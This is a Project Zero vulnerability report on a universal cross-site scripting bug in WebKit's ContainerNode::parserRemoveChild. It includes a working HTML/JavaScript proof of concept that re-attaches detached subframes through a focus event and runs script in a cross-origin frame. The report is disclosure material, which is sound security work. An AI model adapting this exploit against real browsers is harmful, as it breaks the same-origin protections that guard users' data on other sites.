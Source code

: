 # UXSS via ContainerNode::parserRemoveChild (2)

> Reported by lokihardt@google.com, Feb 17 2017

Here's a snippet of `ContainerNode::parserRemoveChild`.

```cpp
void ContainerNode::parserRemoveChild(Node& oldChild)
{
    disconnectSubframesIfNeeded(*this, DescendantsOnly); <<---- (a)
    ...
    document().notifyRemovePendingSheetIfNeeded(); <<---- (b)
}
```

subframes are detached at (a). But In `notifyRemovePendingSheetIfNeeded`| at (b), which fires a focus event, we can attach subframes again.

PoC:

```html
<html>

<body>
  <script>
    let xml =
      `
<body>
    <div>
        <b>
            <p>
                <script>
                let p = document.querySelector('p');
                let link = p.appendChild(document.createElement('link'));
                link.rel = 'stylesheet';
                link.href = 'data:,aaaaazxczxczzxzcz';

                let btn = document.body.appendChild(document.createElement('button'));
                btn.id = 'btn';
                btn.onfocus = () => {
                    btn.onfocus = null;

                    window.d = document.querySelector('div');
                    window.d.remove();

                    link.remove();
                    document.body.appendChild(p);

                    let m = p.appendChild(document.createElement('iframe'));
                    setTimeout(() => {
                        document.documentElement.innerHTML = '';

                        m.onload = () => {
                            m.onload = null;

                            m.src = 'javascript:alert(location);';
                            var xml = \`
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(parent.d);
</sc\` + \`ript>
<element a="1" a="2" />
</svg>\`;

                            var tmp = document.documentElement.appendChild(document.createElement('iframe'));
                            tmp.src = URL.createObjectURL(new Blob([xml], {type: 'text/xml'}));
                        };
                        m.src = 'https://abc.xyz/';
                    }, 0);
                };

                location.hash = 'btn';
                </scrip` +
      `t>
            </b>
        </p>
    </div>
</body>`

    let tf = document.body.appendChild(document.createElement('iframe'))
    tf.src = URL.createObjectURL(
      new Blob([xml], {
        type: 'text/html'
      })
    )
  </script>
</body>

</html>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1134
